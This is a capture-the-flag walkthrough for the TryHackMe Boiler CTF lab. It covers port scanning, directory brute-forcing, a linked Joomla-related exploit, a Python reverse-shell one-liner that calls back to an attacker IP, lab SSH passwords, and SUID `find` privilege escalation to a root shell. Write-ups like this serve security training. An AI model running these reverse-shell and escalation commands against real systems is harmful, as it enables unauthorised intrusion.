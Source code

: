 # Boiler CTF

**Room Link:** [https://tryhackme.com/room/boilerctf2](https://tryhackme.com/room/boilerctf2)



## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (19) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/21 - HTTP

**Kali**

```
ftp $VICTIM
ls -lah 
get .info.txt
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://$VICTIM/joomla -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Initial Shell**

**Exploit:** [https://www.exploit-db.com/exploits/47204](https://www.exploit-db.com/exploits/47204)

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1337
```

**Browser command**

```
export RHOST="10.10.157.229";export RPORT=1337;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

<figure><img src="../../.gitbook/assets/image (17) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

There is a file that has credentials

<figure><img src="../../.gitbook/assets/image (19) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

It was also possible to view from the browser

<figure><img src="../../.gitbook/assets/image (18) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/55007 - SSH

**Kali**

```
ssh basterd@$VICTIM -p 55007
Pass: superduperp@$$
```

<figure><img src="../../.gitbook/assets/image (20) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



There is a backup.sh script that is owned by user stoner, which has his credentials.

<figure><img src="../../.gitbook/assets/image (21) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh stoner@$VICTIM -p 55007                                            
Pass: superduperp@$$no1knows 
```

<figure><img src="../../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**

We can exploit SUID for the find command

**Exploit:** [https://gtfobins.github.io/gtfobins/find/](https://gtfobins.github.io/gtfobins/find/)

**Victim**

```
find / -perm -u=s -type f 2> /dev/null 
```

<figure><img src="../../.gitbook/assets/image (23) (1).png" alt=""><figcaption></figcaption></figure>

Had to specify the full path, it doesn't work if you don't

**Victim**

```
/usr/bin/find . -exec /bin/sh -p \; -quit
```

<figure><img src="../../.gitbook/assets/image (24) (1).png" alt=""><figcaption></figcaption></figure>





